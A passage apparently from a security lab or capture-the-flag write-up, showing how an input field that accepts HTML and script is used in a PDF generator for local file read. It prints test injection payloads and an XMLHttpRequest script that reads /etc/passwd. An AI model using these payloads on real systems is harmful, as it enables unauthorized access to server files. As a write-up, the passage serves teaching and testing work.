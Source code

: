 The input field takes any input, not just numbers, and accepts both HTML and JS (Figure 17).

{% tabs %}
{% tab title="HTML Payload" %}
```html
<h1>test</h1>
```
{% endtab %}

{% tab title="JS Payload" %}
```javascript
<script>document.write('TESTING THIS')</script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../../.gitbook/assets/ssrf_to_lfi_2.png" alt=""><figcaption><p>Figure 18: Testing HTML injection.</p></figcaption></figure>

Following [this](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f) and [this](https://web.archive.org/web/20221207162417/https://blog.noob.ninja/local-file-read-via-xss-in-dynamically-generated-pdf/) post that use [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest), we can try to achieve LFI (Figure 19).

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){  
document.write(this.responseText)};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

<figure><img src="../../../../.gitbook/assets/ssrf_to_lfi_3.png" alt=""><figcaption><p>Figure 19: HTML Injection to LFI.</p></figcaption></figure>
